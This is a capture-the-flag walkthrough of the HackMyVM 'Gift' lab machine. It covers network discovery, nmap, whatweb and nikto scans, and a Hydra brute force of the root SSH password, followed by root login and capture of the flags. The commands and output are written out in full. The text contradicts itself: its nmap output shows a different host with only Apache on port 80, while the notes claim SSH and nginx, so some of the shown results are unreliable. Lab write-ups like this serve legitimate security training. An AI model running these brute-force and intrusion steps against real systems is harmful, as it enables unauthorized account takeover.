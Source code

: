 ```yaml
---
title: "Gift Writeup HackMyVM"
date: 2024-02-21 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Brute Force, Hydra, Beginner, Privilege Escalation, HackMyVM]
---
```


![Alt Text](/img/gift/vm.png)

<strong>This process highlights the importance of enumeration and scanning for vulnerabilities to gain initial access to a target system. Through this machine, one can learn the importance of thorough reconnaissance and understanding various tools and techniques for successful penetration testing.<strong>

<a href="https://hackmyvm.eu/machines/machine.php?vm=Gift" target="_blank" rel="noopener noreferrer">vm link</a>




##### >> Make a new directory for machine and change to that directory
```shell
┌──(kali㉿kali)-[~]
└─$ cd Desktop/gift
                                                                             
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ 
```



#### >> Find our own IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip a            
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:21:b1:d0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.136/24 brd 192.168.0.255 scope global dynamic noprefixroute eth0
       valid_lft 6912sec preferred_lft 6912sec
    inet6 fe80::f913:6113:d2c9:4db2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### >> Let's find the IP address of our target on our virtual network, we can do this with fping
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ fping -ag 192.168.0.136/24 2> /dev/null
192.168.0.1
192.168.0.115
192.168.0.136
192.168.0.142
192.168.0.147
192.168.0.161
```

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ip=192.168.0.161
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ sudo nmap -sC -sV -T4 -A -O -p- $ip
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:49 EST
Nmap scan report for 192.168.0.142
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Quick Automative
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.0.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.79 seconds
```
- Linux: Not yet known which distribution.
- Port 22: SSH (OpenSSH 8.3).
- Port 80: HTTP (nginx).
- Title: The site doesn't have a title (text/html).

#### >> Enumerate the service using WhatWeb

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ whatweb $ip                             
http://192.168.0.161 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx], IP[192.168.0.161], nginx
```

#### >> Let’s open the website in the browser
```
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ firefox $ip &                          
[1] 31479
```
![Alt Text](/img/gift/image1.png)

#### >> Let’s Nikto with target IP
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ nikto -h $ip          
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.0.161
+ Target Hostname:    192.168.0.161
+ Target Port:        80
+ Start Time:         2024-02-08 16:40:50 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2024-02-08 16:41:11 (GMT-5) (21 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto discovered something—an #wp-config.php file containing potential credentials. Let's investigate further.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ curl http://$ip/#wp-config.php#

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

#### >> With port 22 open, there is a possibility to attempt brute-forcing the root account using Hydra
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ hydra -l root -P ~/Desktop/wl/rockyou.txt $ip ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-08 16:49:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://192.168.0.161:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[22][ssh] host: 192.168.0.161   login: root   password: simple
[STATUS] 4781466.00 tries/min, 14344398 tries in 00:03h, 2 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-08 16:52:41
```
- -l   : login name
- -P : file path to wordlist

<br>
## Initial Access
<br>

#### >> Let’s login as root via ssh
```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
The authenticity of host '192.168.0.161 (192.168.0.161)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.161' (ED25519) to the list of known hosts.
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# 
```
- Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.

```shell
┌──(kali㉿kali)-[~/Desktop/gift]
└─$ ssh root@$ip                       
root@192.168.0.161's password: 
IM AN SSH SERVER
gift:~# whoami;id;host;ip a; pwd
root
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
-ash: host: not found
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 08:00:27:26:f2:0d brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.161/24 brd 192.168.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe26:f20d/64 scope link 
       valid_lft forever preferred_lft forever
/root
gift:~# 
```
#### >> Flags
```shell
gift:~# ls -l
total 8
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
gift:~# cat root.txt
####flag####
gift:~# cat user.txt
####flag####
gift:~# 
```
<br>
<center>pwned</center>